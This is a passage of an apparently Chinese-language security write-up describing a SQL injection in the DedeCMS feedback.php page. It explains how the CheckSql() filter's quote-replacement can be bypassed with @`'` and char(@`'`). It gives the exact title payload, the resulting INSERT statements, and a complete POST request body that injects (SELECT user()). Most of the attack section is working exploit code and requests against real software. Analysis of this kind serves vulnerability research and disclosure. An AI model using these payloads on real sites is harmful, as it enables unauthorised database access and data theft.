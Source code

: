 ```
            $error="sub select detect";
        }
        if (!empty($fail))
        {
            fputs(fopen($log_file,'a+'),"$userIP||$getUrl||$db_string||$error\r\n");
            exit("<font size='5' color='red'>Safe Alert: Request Error step 2!</font>");
        }
        else
        {
            return $db_string;
        }
    }

```

但通过跟踪这段代码发现，它有个特征就是会将两个单引号之间的内容用$s$替换，例如’select’会被替换为$s$，这里用两个@`'`包含敏感字，这样$clean变量中就不会出现敏感字，从而绕过CheckSql()函数检测。

这里可以设置title为如下代码，一方面绕过ids防注入代码检测，另一方面加一个#注释掉后面的代码，但是还要做一下变形，就是这个char(@`'`)了。因为#@__feedback的所有字段都被设置为NOT NULL，而@`'`是一个变量，默认为NULL，直接插入@`'`的话会报错，所以需要以char(@`'`)的方法转换一下。

```
',char(@`'`),1,1,1,1,1,1,1,(SELECT user()))#,(1,

```

跟踪代码，如图所示 ￼![enter image description here](http://drops.javaweb.org/uploads/images/deadf294d7099496e901ea609720d76bc97f890a.jpg)

如下SQL语句

```
INSERT INTO `dede_feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`, `mid`,`bad`,`good`,`ftype`,`face`,`msg`) VALUES ('1','1','游客','\',char(@`\'`),1,1,1,1,1,1,1,(SELECT user()))#,(1,','127.0.0.1','1','1364401789', '0','0','0','feedback','1','genxor');

```

被替换为了

```
insert into `dede_feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`, `mid`,`bad`,`good`,`ftype`,`face`,`msg`) values ($s$,$s$,$s$,$s$,$s$,$s$,$s$, $s$,$s$,$s$,$s$,$s$,$s$);

```

字符串中没有任何敏感字，成功绕过CheckSql()函数检测。

POST如下请求给feedback.php，如下所示：

```
   action=send&comtype=comments&aid=1&isconfirm=yes&feedbacktype=feedback&face=1&msg=genxor&notuser=1&typeid=1&title=',char(@`'`),1,1,1,1,1,1,1,(SELECT user()))#,(1,

```

跟踪代码，实际执行的SQL语句跟踪变量如下所示： ￼![enter image description here](http://drops.javaweb.org/uploads/images/43c299867d7f7640df4c1b9dfd626359a24360f0.jpg)
